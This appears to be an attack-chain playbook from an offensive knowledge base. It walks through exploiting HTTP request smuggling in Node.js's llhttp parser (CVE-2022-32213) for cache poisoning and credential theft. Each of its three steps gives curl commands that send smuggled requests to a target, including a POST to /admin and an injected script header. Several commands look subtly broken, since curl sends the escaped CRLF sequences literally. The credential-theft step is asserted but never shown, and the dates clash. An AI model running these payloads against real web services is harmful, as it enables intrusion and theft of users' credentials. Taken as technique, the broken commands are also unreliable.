

---
tags:
  - http-request-smuggling
  - node.js
  - llhttp
  - cve-2022-32213
type: attack_chain
tools:
  - '[[tools/Curl]]'
  - '[[tools/Burp-Suite]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
commands:
  - '[[commands/curl-scan-for-hrs-vulnerability]]'
  - '[[commands/curl-craft-smuggling-request]]'
  - '[[commands/curl-exploit-cache-poisoning]]'
platforms:
  - Web
complexity: medium
procedures:
  - '[[procedures/Identify-Vulnerable-Node.js-Application]]'
  - '[[procedures/Craft-HTTP-Smuggling-Request]]'
  - '[[procedures/Exploit-for-Cache-Poisoning-and-Credential-Theft]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
description: >-
  Exploitation of HTTP Request Smuggling vulnerability in Node.js applications
  using flawed Transfer-Encoding header parsing in llhttp parser, leading to
  cache poisoning and credential theft.
skill_level: intermediate
impact_level: high
id: b504742c-39c2-45f0-9dcb-f949031d0728
created_at: '2025-12-13T09:01:17.692Z'
updated_at: '2025-12-13T09:01:17.692Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# HTTP Request Smuggling via Transfer-Encoding in Node.js

## Overview

This attack chain demonstrates the exploitation of a HTTP Request Smuggling (HRS) vulnerability in Node.js applications, stemming from flawed parsing of Transfer-Encoding headers in the llhttp parser of the http module. Discovered by Zeyu Zhang and assigned CVE-2022-32213, this vulnerability allows attackers to perform cache poisoning, bypass security layers, and steal credentials in affected web applications. The chain covers identification, crafting of malicious requests, and exploitation for impactful outcomes like credential theft.

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Curl]]
- [[tools/Burp-Suite]]

### Target Environment

- Web platform running Node.js with vulnerable llhttp parser
- Exposed HTTP services on standard ports (e.g., 80, 443)
- Network access to the target web application

### Initial Access Requirements

- No prior credentials needed
- External network position to send HTTP requests
- Ability to interact with the target's HTTP endpoint

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Node.js Application
procedure: [[procedures/Identify-Vulnerable-Node.js-Application]]

**Objective**: Scan and confirm the presence of the HTTP Request Smuggling vulnerability in the target Node.js application.

**Instructions**: Begin by using [[commands/curl-scan-for-hrs-vulnerability]] to probe the target for signs of vulnerable Transfer-Encoding parsing:

```bash
curl -v -H "Transfer-Encoding: chunked" -d "0\r\n\r\nGET / HTTP/1.1\r\nHost: target.com\r\n\r\n" http://target.com
```

Analyze the response for desynchronization between frontend and backend parsers. Use [[tools/Burp-Suite]] to intercept and verify header handling.

**Expected Output**: Server responses indicating mismatched request parsing, such as unexpected 4xx errors or echoed smuggled requests.

**Success Indicators**:
- Detection of Node.js in server headers
- Confirmation of llhttp parser vulnerability through response anomalies

### Step 2: Craft HTTP Smuggling Request
procedure: [[procedures/Craft-HTTP-Smuggling-Request]]

**Objective**: Construct a malicious HTTP request that exploits the Transfer-Encoding flaw to smuggle additional requests.

**Instructions**: Use [[commands/curl-craft-smuggling-request]] to build and send a crafted request:

```bash
curl -v -H "Transfer-Encoding: chunked" -d "1\r\na\r\n0\r\n\r\nPOST /admin HTTP/1.1\r\nHost: target.com\r\nContent-Length: 0\r\n\r\n" http://target.com
```

Modify the chunked encoding to include a smuggled POST request or similar, ensuring the llhttp parser misinterprets the boundaries.

**Expected Output**: The server processes the smuggled request as part of the next legitimate request.

**Success Indicators**:
- Successful smuggling confirmed by backend logs or response behavior
- No immediate rejection of the crafted headers

### Step 3: Exploit for Cache Poisoning and Credential Theft
procedure: [[procedures/Exploit-for-Cache-Poisoning-and-Credential-Theft]]

**Objective**: Leverage the smuggled request to perform cache poisoning or steal credentials from the application.

**Instructions**: Execute [[commands/curl-exploit-cache-poisoning]] to poison the cache with malicious content:

```bash
curl -v -H "Transfer-Encoding: chunked" -d "0\r\n\r\nGET /static/cacheable HTTP/1.1\r\nHost: target.com\r\nX-Poison: <script>alert('xss')</script>\r\n\r\n" http://target.com
```

Follow up by requesting the poisoned resource to trigger credential theft or bypass security.

**Expected Output**: Cached responses include injected malicious content, or credentials are exfiltrated via smuggled requests.

**Success Indicators**:
- Poisoned cache serves altered content to users
- Successful extraction of sensitive data like credentials

## Attack Chain Summary

### Key Achievements

1. Identification of vulnerable Node.js endpoints
2. Successful smuggling of HTTP requests
3. Achievement of cache poisoning and credential theft

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

*Last updated: 2023-10-01*
